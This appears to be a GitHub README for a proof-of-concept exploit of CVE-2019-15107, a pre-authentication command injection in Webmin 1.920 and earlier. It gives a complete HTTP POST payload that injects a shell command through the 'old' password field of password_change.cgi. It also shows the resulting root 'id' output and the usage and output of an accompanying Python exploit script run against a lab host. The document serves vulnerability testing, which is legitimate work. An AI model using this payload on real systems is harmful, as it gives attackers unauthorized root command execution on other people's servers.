 # CVE-2019-15107  Webmin RCE <=1.920 (unauthorized)

```
1.  Webmin <=1.920
2.  need enable reset Password function
```
`https://10.10.20.166:10000/password_change.cgi`

![](./CVE-2019-15107.gif)



### poc
```
POST /password_change.cgi HTTP/1.1
Host: 10.10.20.166:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://10.10.20.166:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2



<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root)
</h3></center>
```
### python usage:
`python CVE_2019_15107.py https://10.10.20.166:10000 cmd`


![](./CVE-2019-15107.jpg)
```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

 _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
(  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___  \
| (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
| |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
| |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
| |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
| (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
(_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                          (_____)                              (_____)
                                     python By jas502n



vuln_url= https://10.10.20.166:10000/password_change.cgi

Command Result = uid=0(root) gid=0(root) groups=0(root)
```

### 参考链接：

https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107
